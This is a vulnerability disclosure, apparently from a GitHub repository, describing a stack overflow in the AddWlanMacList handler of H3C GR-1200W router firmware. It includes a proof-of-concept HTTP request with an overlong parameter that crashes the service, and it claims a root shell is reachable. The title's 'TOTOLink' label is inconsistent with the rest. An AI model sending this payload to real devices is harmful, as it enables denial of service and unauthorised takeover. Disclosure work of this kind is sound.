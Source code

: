 # TOTOLink H3C GR-1200W (<=MiniGRW1A0V100R006) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to have a stack overflow vulnerability in the AddWlanMacList function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220724213415656](img/image-20220724213415656.png)

In the `AddWlanMacList` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%u;%u;%[^;];%[^;];`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V7` or `V8`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=AddWlanMacList&param=1;2;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;
```

![image-20220724220946426](img/image-20220724215411671.png)

The picture above shows the process information before we send poc.

![image-20220724221039594](img/image-20220724215659752.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220724220011366](img/image-20220724220011366.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.
